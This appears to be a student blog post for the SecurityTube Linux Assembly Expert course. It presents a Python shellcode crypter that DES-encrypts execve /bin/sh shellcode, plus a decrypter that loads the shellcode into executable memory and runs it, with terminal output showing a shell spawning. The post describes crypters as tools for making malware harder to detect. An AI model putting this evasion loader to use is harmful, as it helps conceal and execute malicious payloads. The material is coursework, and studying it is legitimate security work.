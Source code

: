 **Assignment 7**

Create a shellcode crypter

A crypter is a type of software that can encrypt, obfuscate, and manipulate malware, to make it harder to detect by security programs.
 
For this last SLAE assignment, I’ve created a shellcode crypter using the DES encryption using the pyCrypto library in python
	
pyCrypto library is a collection of both secure hash functions (such as SHA256 and RIPEMD160), and various encryption algorithms (AES, DES, RSA, ElGamal, etc.)

Refer:https://pypi.org/project/pycrypto/

**Methodology**

	>Cryptor 

		DES Encryption
		Refer : https://en.wikipedia.org/wiki/Data_Encryption_Standard
		its a symmetric key encryption mechanism, due to the short keylength (56 bits) , its not very commonly used.

		For Cryptor a execve /bin/sh shell code is used


		Since the DES Encrypiton process ciphertext in a block of 8 , if the length of the shellcode is not a multiple of 8 , x90 is padded
		x90 , NOP doesnt really do anything ie xchg eax, eax , which wont cause a problem in our shellcode

		Crypter schema is achived using a python script which, takes a shellcode (execve /bin/sh) and padd x90 to make the shellcode a multiple of x90 and use pyCrypto library to encrypt the shellcode using DES
		the 8 bit key used is "aaaaaaaa"

			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat encoder.py                                                                                             [12/288]
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			import urllib


			shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  #/bin/sh shellcode
			print(shellcode)

			print(" ")
			print("Length of the shellcode is "+str(len(shellcode)))
			print("Original Shellcode ")

			enc1 = ""

			for i in bytearray(shellcode):
 				enc1+="0x"
 				enc1+= "%02x," %(i & 0xff)

			print("----------------------")
			print(enc1.rstrip(','))

			if ((len(shellcode)/8)==0)                                      #check if padding is needed
 				print("boo no padding is required")
			else:
 				padding = 8 * ((len(shellcode)/8)+1) - len(shellcode)
 				shellcode = shellcode + "\x90"*padding                  #appending x90 to make the shellcode length a multiple of 8
 			print("Padding needed , appended  "+str(padding)+"""  \\x90 bytes""")         

			print(len(shellcode))

			cipher = DES.new("aaaaaaaa")                                    #DES encryption key
			encrypted_data = cipher.encrypt(shellcode)											   	#Encryption process

			enc2 = ""
			output= ""

			for i in bytearray(encrypted_data):
		 		enc2+="0x"
	 	 		enc2+= "%02x," %(i & 0xff)
 		 		output += "\\x"
  		 		output += '%02x'% i

			print("Encrypted Shellcode")
			print("----------------------")
			print(enc2.rstrip(','))																							#printing Encrypted shellcode

			print(output)

			toor@ubuntu:~/Desktop/slae/Assignments/7$



	>Decrypter

		Decrypter takes the DES encrypted shellcode and decrypt the shellcode using the same key(symmetric encryption) and run the shellcode


			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat decoder.py
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
			import os
			
			encrypted_data = "\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a"  
											#DES Encrypted shellcode
			cipher = DES.new("aaaaaaaa")																						#DES decryption key


			shellcode = cipher.decrypt(encrypted_data)                     	#DES Decryption



			libc = CDLL('libc.so.6')																						# Passing control on to the shellcode using libc.so
			#shellcode = shellcode.replace('\\x','').decode('hex')
			sc = c_char_p(shellcode)
			size = len(shellcode)
			addr = c_void_p(libc.valloc(size))
			memmove(addr, sc, size)
			libc.mprotect(addr, size, 0x7)
			run = cast(addr, CFUNCTYPE(c_void_p))
			run()
			toor@ubuntu:~/Desktop/slae/Assignments/7$
			
	Running shellcode in a python script.
	This is a good read
		http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html


**Practical**

Lets take the execve /bin/sh shellcode and use "aaaaaaaaa" key to encrypt using DES

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python encoder.py
	1▒Ph//shh/bin▒▒▒̀

	Length of the shellcode is 25
	Original Shellcode
	----------------------
	0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
	Padding needed , appended  7  \x90 bytes
	32
	Encrypted Shellcode
	----------------------
	0x9a,0xa9,0x7d,0x8b,0xc4,0x0f,0x1a,0xca,0xeb,0x74,0xae,0x62,0x66,0x51,0x01,0xdd,0xc2,0x77,0x52,0xc5,0x55,0xb9,0xdf,0xe9,0xb0,0xbe,0xff,0xca,0x98,0x45,0xc1,0x9a
	\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a
	toor@ubuntu:~/Desktop/slae/Assignments/7$


Lets take the encrypted payload and decrypt it using the same DES Key 

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python decoder.py
	$ id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	$


	Works like a charm 


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
